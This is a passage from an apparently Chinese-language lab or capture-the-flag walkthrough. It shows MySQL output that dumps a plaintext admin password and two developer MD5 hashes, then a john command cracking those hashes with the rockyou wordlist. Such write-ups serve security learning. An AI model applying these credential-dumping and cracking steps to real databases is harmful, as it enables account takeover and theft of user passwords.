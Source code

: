     ```

-   用户表中存在以下信息--> 应该是前端的登陆密码

-   ```sql
    mysql> select * from gallarific_users;  
    select * from gallarific_users;
    +--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
    | userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
    +--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
    |      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
    +--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
    1 row in set (0.00 sec)
    
    ```

-   在dev表中找到两个账号：

-   ```sql
    mysql> desc dev_accounts;
    desc dev_accounts;
    +----------+-------------+------+-----+---------+----------------+
    | Field    | Type        | Null | Key | Default | Extra          |
    +----------+-------------+------+-----+---------+----------------+
    | id       | int(10)     | NO   | PRI | NULL    | auto_increment | 
    | username | varchar(50) | NO   |     | NULL    |                | 
    | password | varchar(50) | NO   |     | NULL    |                | 
    +----------+-------------+------+-----+---------+----------------+
    3 rows in set (0.00 sec)
    
    mysql> select * from dev_accounts;
    select * from dev_accounts;
    +----+------------+----------------------------------+
    | id | username   | password                         |
    +----+------------+----------------------------------+
    |  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
    |  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
    +----+------------+----------------------------------+
    2 rows in set (0.01 sec)
    
    ```

-   将文件内容保存后使用john进行破解

-   ```shell
    ❯ john --format=Raw-MD5 crash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    starwars         (?)     
    Mast3r           (?)     
    2g 0:00:00:00 DONE (2023-06-08 15:46) 3.030g/s 16414Kp/s 16414Kc/s 16415KC/s Maswhit002..Massingue
    Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
    Session completed. 
    ```
